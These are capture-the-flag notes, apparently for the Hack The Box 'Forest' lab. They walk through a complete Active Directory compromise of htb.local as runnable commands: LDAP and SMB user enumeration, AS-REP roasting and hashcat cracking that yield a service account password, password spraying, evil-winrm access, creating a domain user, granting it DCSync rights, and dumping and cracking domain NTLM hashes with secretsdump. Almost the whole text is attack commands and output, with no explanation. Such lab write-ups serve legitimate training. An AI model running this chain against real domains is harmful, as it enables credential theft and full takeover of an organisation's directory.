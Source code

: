 ```bash
|_    </BODY></HTML>
49664/tcp open  unknown
49665/tcp open  msrpc             Microsoft Windows RPC
49666/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
49671/tcp open  msrpc             Microsoft Windows RPC
49676/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc             Microsoft Windows RPC
49681/tcp open  msrpc             Microsoft Windows RPC
49698/tcp open  msrpc             Microsoft Windows RPC


## enum

enum4linux -a $tip | tee enum4linux.log

cat users.txt | cut -d " " -f 1 | cut -d ":" -f 2 | cut -d "[" -f 2 | cut -d "]" -f 1 > user.list

### ldap
ldapsearch -H ldap://$tip:389 -x -b "DC=htb,DC=local" > ldap-anonymous.log

### ldap user enum 
ldapsearch -H ldap://$tip:389 -x -b "DC=htb,DC=local" '(Objectclass=user)' samaccountname | grep -i samaccountname

# obtain the version and pwd policy.
crackmapexec smb $tip -u '' -p '' --pass-pol

### asrespoast
GetNPUsers.py -usersfile user.list  -no-pass -dc-ip $tip htb.local/ -format hashcat -outputfile asreproast.hash

hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt
svc-alfresco/s3rvice

check passwod.
crackmapexec smb $tip -u svc-alfresco -p s3rvice --shares

password spray
crackmapexec smb $tip -u users.txt -p s3rvice --shares

evil-winrm -u svc-alfresco -p s3rvice -i $tip


## exploit
service accounts mem of 

net user hello Password1 /add /domain

$SecPassword = ConvertTo-SecureString 'Password1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\hello', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -PrincipalIdentity hello -Rights DCSync
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hello -Rights DCSync

secretsdump.py -just-dc htb.local/svc-alfresco:s3rvice@$tip   > hash.out

cat hash.out | grep ::: | awk -F: '{print $1":"$4}'

hashcat --user -m 1000 forest-ntlm /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/InsidePro-PasswordsPro.rule
```